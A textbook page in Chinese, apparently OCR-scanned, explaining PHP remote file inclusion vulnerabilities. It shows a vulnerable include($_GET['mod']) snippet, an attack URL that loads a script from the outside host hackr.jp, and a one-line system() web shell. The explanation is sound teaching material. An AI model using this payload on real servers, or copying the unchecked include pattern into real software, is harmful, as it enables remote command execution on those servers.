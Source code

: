 #### 11.2.7　远程文件包含漏洞
远程文件包含漏洞（Remote File Inclusion）是指当部分脚本内容需要
从其他文件读入时，攻击者利用指定外部服务器的 URL 充当依赖文
件，让脚本读取之后，就可运行任意脚本的一种攻击。

这主要是 PHP 存在的安全漏洞，对 PHP 的 include 或 require 来说，
这是一种可通过设定，指定外部服务器的 URL 作为文件名的功能。
但是，该功能太危险，PHP5.2.0 之后默认设定此功能无效。

固然存在输出值转义的问题，但更应控制对任意文件名的指定。

- 远程文件包含漏洞的攻击案例f

  下面以 include 读入由查询字段指定文件的功能为例，讲解远程
  文件包含漏洞。该功能可通过以下查询字段形式指定文件名，并
  在脚本内的 include 语句处读入这个指定文件。

  ```
  http://example.com/foo.php?mod=news.php
  ```
  对应脚本的源代码如下所示。

  >http://example.com/foo.php 的源代码（部分摘录）

  ```
  $modname = $_GET['mod'];
  include($modname);
  ```

  攻击者指定如同下面形式的 URL 发出请求。

  ```
  http://example.com/foo.php?mod=http://hackr.jp/cmd.php&cmd=ls
  ```

  攻击者已事先在外部服务器上准备了以下这段脚本。

  >http://hackr.jp/cmd.php 的源代码

  ```
  <? system($_GET['cmd']) ?>
  ```

  假设 Web 服务器（example.com）的 include 可以引入外部服务器
  的 URL，那就会读入攻击者在外部服务器上事先准备的
  URL（http://hackr.jp/cmd.php）。结果，通过 system 函数就能在
  Web 服务器（example.com）上执行查询字段指定的 OS 命令了。
